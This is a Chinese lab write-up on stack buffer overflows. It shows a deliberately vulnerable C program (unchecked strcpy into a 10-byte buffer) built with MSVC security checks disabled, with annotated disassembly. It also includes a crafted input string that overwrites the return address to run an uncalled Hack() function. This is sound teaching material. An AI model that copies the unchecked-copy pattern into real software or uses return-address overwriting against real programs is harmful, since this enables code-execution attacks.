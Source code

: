 # 缓冲区溢出
## 缓冲区溢出漏洞分析原理
通过实现理解缓冲区溢出漏洞的原理，清楚在程序调用过程中内存栈的变化。
### 源代码


    #define _CRT_SECURE_NO_WARNINGS

    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>

    int sub(char* x)
    {
      char y[10];
      strcpy(y, x);
      return 0;
    }

    int main(int argc, char** argv)
    {
      if (argc > 1)
      sub(argv[1]);
      printf("exit");
    }
* 运行时项目属性设置：  
1.'c/c++'---'代码生成'---'启用C++异常'设置为空---'基本运行时检查'设置为空---'安全检查'设置为'禁用安全检查（/GS-）'  
2.'c/c++'---'所有选项'---'SDL检查'设置为否
* 命令参数设置：'设置属性'---'调试'---'命令参数'设置的参数由短到长查看EBP,EIP,ESP的变化
如下图：
![](images/setting1.png)
### 反汇编代码
    
    int sub(char* x)
    {
    007D1580 55                   push        ebp  //局部变量入栈
    007D1581 8B EC                mov         ebp,esp  
    007D1583 83 EC 4C             sub         esp,4Ch  
    007D1586 53                   push        ebx  
    007D1587 56                   push        esi  
    007D1588 57                   push        edi  
    007D1589 B9 08 90 7D 00       mov         ecx,7D9008h  
    007D158E E8 1B FC FF FF       call        007D11AE  
	char y[10];
	strcpy(y, x);
    007D1593 8B 45 08             mov         eax,dword ptr [ebp+8]  
    007D1596 50                   push        eax  
    007D1597 8D 4D F4             lea         ecx,[ebp-0Ch]  
    007D159A 51                   push        ecx  
    007D159B E8 3B FC FF FF       call        007D11DB  //调用函数，并将函数下一条指令入栈
    007D15A0 83 C4 08             add         esp,8  
	return 0;
    007D15A3 33 C0                xor         eax,eax  
    }
    

    int main(int argc, char** argv)
    {
    007D1650 55                   push        ebp  //ebp入栈
    007D1651 8B EC                mov         ebp,esp  //esp指向ebp位置
    007D1653 83 EC 40             sub         esp,40h  //esp减40h,上移
    007D1656 53                   push        ebx  //ebx入栈
    007D1657 56                   push        esi  //esi入栈
    007D1658 57                   push        edi  //edi入栈
    007D1659 B9 08 90 7D 00       mov         ecx,7D9008h  //7D9008h的值给ecx
    007D165E E8 4B FB FF FF       call        007D11AE  //调用函数
	if (argc > 1)
    007D1663 83 7D 08 01          cmp         dword ptr [ebp+8],1 // 
    007D1667 7E 17                jle         007D1680  //不大于跳转，大于顺序执行
		sub(argv[1]);
    007D1669 B8 04 00 00 00       mov         eax,4  //eax=4
    007D166E C1 E0 00             shl         eax,0  //eax值没变
    007D1671 8B 4D 0C             mov         ecx,dword ptr [ebp+0Ch]//ecx的值等于ebp+0Ch的值  
    007D1674 8B 14 01             mov         edx,dword ptr [ecx+eax]  //edx的值等于ebp+0Ch+4的值
		sub(argv[1]);
    007D1677 52                   push        edx  
    007D1678 E8 73 FA FF FF       call        007D10F0  
    007D167D 83 C4 04             add         esp,4  
	printf("exit");
    007D1680 68 30 5B 7D 00       push        7D5B30h  
    007D1685 E8 AD F9 FF FF       call        007D1037  
    007D168A 83 C4 04             add         esp,4  
    }
    007D168D 33 C0                xor         eax,eax  
    007D168F 5F                   pop         edi  //之后都在出栈
    007D1690 5E                   pop         esi  
    007D1691 5B                   pop         ebx  
    007D1692 8B E5                mov         esp,ebp  
    007D1694 5D                   pop         ebp  
    007D1695 C3                   ret             //退出程序
打开反汇编、寄存器、内存观察寄存器的变化，分析内存中的数据变化：  
1.EIP指向当前指向指令所在的地址，由下图可以看到，eip的值会随着程序执行而变化
![](images/eipchange.png)
2.ESP是栈顶指针，当调用函数时，ESP的值会减小
![](images/espchange.png)
### 分析画图
关于内存中数据变化的分析如下图所示
![](images/analysis-graph.jpg)

## 缓冲区溢出漏洞利用
根据缓冲区溢出漏洞原理，执行未被调用的函数
### 实验步骤
实验代码
```
#define _CRT_SECURE_NO_WARNINGS
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int sub(char* x)
{
	char y[10];
	strcpy(y, x);
	return 0;
}
void Hack()
{
	printf("You are hacked!");
}
int main(int argc, char** argv)
{
	char str[30] = "aaabaaacaaadaaae\x80\x15\x21\x03";
	sub(str);
  #实现Hach函数时使用以上两行
  #寻找溢出边界时使用以下两行
	//if (argc > 1)
		//sub(argv[1]);
	printf("exit");
}
```
更改命令参数设置(由于太长，此处以报错时的内存显示具体字符串值)
![](images/setting3.png)
* 一定要用有规律的字符串，由于初次没有使用有规律的字符串，出错了，很久都没有找到原因，也无法解决
调试执行，看到如下图出现报错，函数返回失败。说明是在0x66616161的位置出现了溢出报错，因为将此处换为Hack()函数的地址，来执行Hack()函数
![](images/wrongalert.png)
反汇编找到Hach函数的地址
![](images/address.png)
因此替换0x66616161处的地址后，字符串为"aaabaaacaaadaaae\x80\x15\x21\x03",执行以后看到如下结果。  
![](images/result.png)

## 实验总结
1. 调用strcpy等拷贝函数前应该先检查参数长度，清楚参数的含义    
2. 可以利用缓冲区溢出漏洞，寻找溢出边界，替换为我们需要执行的目标函数的地址，从而执行目标代码，或者访问到对方不想让我们访问的数据 